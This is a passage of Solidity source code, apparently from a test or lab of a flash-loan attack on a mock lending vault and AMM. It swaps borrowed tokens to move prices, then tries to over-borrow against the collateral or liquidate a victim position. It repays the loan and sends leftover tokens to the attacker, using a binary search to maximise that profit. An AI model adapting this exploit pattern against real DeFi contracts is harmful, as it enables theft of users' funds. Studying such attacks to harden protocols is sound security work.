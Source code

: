 ```solidity
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
        vault.liquidate(wasp);
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 1: Over-borrow fails due to AMM slippage
    function _scenarioOverBorrowFail(uint256 loanAmount, address /*wasp*/ ) internal {
        // Swap TokenA → TokenB; slippage reduces collateral value, over-borrow fails to repay loan
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 2: Over-borrow succeeds by using TokenB flash-loan
    function _scenarioOverBorrowSuccess(uint256 loanAmount, address /*wasp*/ ) internal {
        // Borrow TokenB instead of TokenA → avoids slippage trap, over-borrow succeeds
        tokenB.approve(address(pym), loanAmount);
        pym.swapExactBForA(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenB, loanAmount);
    }

    /// @dev Attempt over-borrow from vault using current collateral
    function _tryOverBorrow() internal {
        uint256 tokenAAfter = tokenA.balanceOf(address(this));
        if (tokenAAfter > 0) {
            tokenA.approve(address(vault), tokenAAfter);
            vault.depositCollateral(tokenAAfter);
            uint256 price = pym.getPymPrice(address(tokenA), address(tokenB));
            uint256 maxBorrow = (((tokenAAfter * price) / 1e18) * 50) / 100; // LTV 50%
            vault.borrow(maxBorrow);
        }
    }

    /// @dev Swap back tokens if needed and repay flash-loan
    function _finalize(MockERC20 loanToken, uint256 loanAmount) internal {
        if (address(loanToken) == address(tokenA)) {
            _swapBackAndRepay(tokenB, tokenA, loanAmount);
        } else if (address(loanToken) == address(tokenB)) {
            _swapBackAndRepay(tokenA, tokenB, loanAmount);
        }

        // Send remaining TokenB as profit to attacker
        uint256 profitB = tokenB.balanceOf(address(this));
        if (profitB > 0) {
            tokenB.transfer(owner, profitB);
        }
    }

    /// @dev Swaps enough tokens back to repay the flash-loan.
    /// @notice This function uses a binary search to find the minimum
    /// input amount needed to swap and generate enough output tokens
    /// to cover the flash-loan repayment. This optimizes the attacker's profit
    /// by minimizing slippage on the return swap.
    function _swapBackAndRepay(MockERC20 swapFrom, MockERC20 repayToken, uint256 loanAmount) internal {
        uint256 repayAmount = loanAmount;
        uint256 repayBalance = repayToken.balanceOf(address(this));

        if (repayBalance < repayAmount) {
            uint256 needed = repayAmount - repayBalance;
```